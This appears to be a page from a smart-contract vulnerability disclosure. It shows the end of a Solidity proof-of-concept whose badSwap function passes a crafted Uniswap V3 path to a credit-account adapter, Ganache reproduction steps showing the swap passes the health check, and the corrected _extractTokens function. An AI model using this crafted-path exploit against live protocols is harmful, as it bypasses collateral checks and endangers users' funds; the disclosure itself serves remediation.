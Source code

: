 ```
        Adapter(adapter).exactOutput( params );
    }

    function badSwap(uint amountOut) external{

        Adapter.ExactOutputParams memory params = Adapter.ExactOutputParams(
            abi.encodePacked(WBTC, poolFee, WETH, DAI), // crafted payload
            address(this),
            block.timestamp,
            amountOut,
            type(uint).max
        );

        Adapter(adapter).exactOutput( params );
    }

}
```

##### Steps to Reproduce
(1) Run this ganache-cli command to fork mainnet with some ether balances ganache-cli --fork https://main-light.eth.linkpool.io/ -a 1 -e 100000
(2) Deploy PoC contract
(3) Call _openCreditAccount() with 2 ether
(4) Call approveEverthing()
(5) Call poolShift() with 100 ether
(6) Try calling goodSwap with amountOut = 100, you will notice that it reverts with CF5 error
(7) Try calling badSwawp with same amountOut , you will notice that it passes health check

## Details of fix

Solution fixes `_extractTokens` function to provide correct value for  `tokenB` via aligning data for Uniswap V3 format:

```
function _extractTokens(bytes memory path)
        internal
        pure
        returns (address tokenA, address tokenB)
    {
        require(
            path.length >= (2 * ADDR_SIZE + FEE_SIZE),
            "Incorrect path length"
        );
        tokenA = path.toAddress(0);
        tokenB = path.toAddress(
            ((path.length - ADDR_SIZE) / (ADDR_SIZE + FEE_SIZE)) *
                (ADDR_SIZE + FEE_SIZE)
        );
    }
```
